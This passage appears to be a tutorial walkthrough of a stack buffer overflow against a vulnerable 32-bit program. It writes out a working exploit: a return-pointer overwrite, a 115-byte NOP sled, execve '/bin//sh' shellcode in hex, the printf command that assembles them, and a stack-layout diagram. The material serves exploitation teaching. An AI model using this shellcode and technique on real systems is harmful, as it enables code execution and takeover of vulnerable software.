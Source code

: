 The return pointer always has to return towards the top of the stack. So we will want the new return pointer to point to the raw command line memory, say `0xffffd8c0`. This is where code execution will start from:

```
NOP_SLED_POINTER="\xc0\xd8\xff\xff"
```

So the pointer doesn't have to be too accurate, we can use a [NOP sled](https://en.wikipedia.org/wiki/NOP_slide). This effectively provides a wider target for the pointer - we attach our shellcode after this section and it's easier to hit.

```
NOP_SLED=$(printf "\x90%.0s" {1..115})
```

Same shellcode as before:

```
EGGSHELL="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
```

Together these make the full exploit:

```
EXPLOIT_ARGUMENT=$(printf "$NOP_SLED$EGGSHELL$NOP_SLED_POINTER")
```

The **length of the NOP sled is important**. Remember we are exploiting this program by overflowing a buffer! We already determined we wanted to overflow from the end of `buf` (`0xffffd69f`) to the end of the return pointer (`0xffffd6af`). This is **16 bytes**.

Time for some arithmetic (in bytes):

- Initial `buf` length (128) + Overflow length (16) = Total argument length required (**144**)
- Total length (144) - (Shellcode length (25) + Pointer length (4)) = NOP Sled length (**115**)


### Action breakdown

```
0xffffd60c:	..........	..........	..........	..........
0xffffd61c:	..........	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd62c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd63c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd64c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd65c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd66c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd67c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd68c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd69c:	SHELLCODE	SHELLCODE	SHELLCODE	SHELLCODE	# buffer overflow
0xffffd6ac:	0xffffd8c0	..........	..........	..........	# overwrites pointer
...
0xffffd86c:	..........	..........	..........	NOP_SLED	# when main() exits
0xffffd87c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd88c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED	# causes execution jump
0xffffd89c:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED	# to NOP sled
0xffffd8ac:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd8bc:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd8cc:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd8dc:	NOP_SLED	NOP_SLED	NOP_SLED	NOP_SLED
0xffffd8ec:	NOP_SLED	NOP_SLED	SHELLCODE	SHELLCODE	# and shellcode
0xffffd8fc:	SHELLCODE	SHELLCODE	NEW_POINTER	..........	# is run
0xffffd90c:	..........	..........	..........	..........
```
